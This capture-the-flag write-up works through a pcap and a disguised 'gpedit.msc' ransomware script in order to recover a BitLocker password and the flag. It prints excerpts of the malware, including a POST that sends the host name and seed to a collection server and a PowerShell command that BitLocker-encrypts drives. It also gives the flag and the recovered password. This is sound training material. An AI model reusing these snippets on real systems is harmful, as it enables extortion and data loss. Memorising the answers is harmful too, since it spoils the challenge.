




# Honey, I shrunk the skids

Author: LOLASL

Flag: `EPT{it_works_the_machine_works!}`

# Description

`My computer went to ransomland and all I got was this lousy pcap! Can you please help me unlock the FlagDisk.vhdx?`

# Provided challenge files

- [FlagDisk.vhdx](https://platform.ept.gg/api/challenge/shrunk/file)
- [shrunk.pcap](https://platform.ept.gg/api/challenge/shrunk/file)

# Writeup
Looking at the PCAP, we see two interesting HTTP packets. The IP address 192.168.77.167 was seen downloading a file named _gpedit.zip_ and later uploading data to `/updatelog` on the IP address 192.168.77.136


---
Looking at `/updatedlog` we can see the text
```http
POST /updatelog HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded; Charset=UTF-8
Accept: */*
Accept-Language: fr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Content-Length: 40
Host: 192.168.77.136

upgrade=REVTS1RPUC01OUMxQzNECTQzOTA2Ljgz
```
quick base64 decode later we get:

```http
upgrade=DESKTOP-59C1C3D	43906.83
```
Ok, that looks like a computername and a random number, not sure what that does yet, maybe the _gpedit.zip_ file can help us find out what that is.
We use the `File -> Export Objects -> HTTP` in Wireshark to extract _gpedit.zip_ from the PCAP and from the zip file we get a file called _gpedit.msc_.



Opening it up in VSCode, we see that it's just one massive XML file. Scrolling through, we spot a part where it's using xls.loadXML to load an XML-formatted string. The string looks like its url encoded, so we run it through URL decode in CyberChef, and voilà! We get the entire readable code.

- [Readable_gpedit.txt](Readable_gpedit.txt)

Examining the script, we observe that it generates a seed from various system properties, including used and free memory, total and free space, performance metrics, and network data. This seed is then utilized to generate a 64-character string using a random selection from a predefined set of characters.
```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = CStr(usedMemory) & CStr(usedSpaceTotal) & CStr(freeSpaceTotal) & CStr(freeMemory)  & CStr(sys) & CStr(perf) & CStr(received) & CStr(sent) & CStr(Timer)
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next
```

Here we can see the `"computerName" Tab "seed"` is send to 192.168.77.136 in a file called `/updatelog`, lucky us, we got the `/updatelog` data from the computer that got "ransomwared" from the pcap.
```vbs
Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result
```
Upon further inspection, we see that the script uses strRandom as the BitLocker password, formatted as "'strRandom'" (Chr(34) = " ,Chr(39) = '). The script uses a PowerShell command to convert strRandom into a secure string using `ConvertTo-SecureString` and then applies it as a password to enable BitLocker on the drives.

```vbs
If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
```

After checking the script and understanding what it does we can decipher out that `43906.83` from the `/updatelog` in the pcap must be the seed that sets the bitlocker password on the disk. Knowing the exact seed value used to generate the BitLocker password for FlagDisk.vhdx allows us to modify the original script to reveal the password. By modifying the script to use the seed `43906.83` and print out strRandom, we should be able to get the same password as the "ransomware" used.

```vbs
Dim strRandom
characters = "THEQUICKBROWNFOXJUMPSOVERTHELAZYDOG!@#$&*-+=_;0123456789thequickbrownfoxjumpsoverthlazydog"
Dim seed
seed = 43906.83 ' Replace the seed with the one in the PCAP.
Rnd(-1)
Randomize seed
For i = 1 To 64
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)
    strRandom = strRandom & randomChar
Next

WScript.Echo strRandom ' prints out strRandom in a msgbox
```
voila, we get out the password:



`_tfeTIO$*Vy##f@GyRfDEJvRvNerHHDrE=GHr0CRFgSX3VYD4koa-LUU&OTDe;rb`

Now we only need to mount the disk and enter the password




and there is the flag :)
`EPT{it_works_the_machine_works!}`
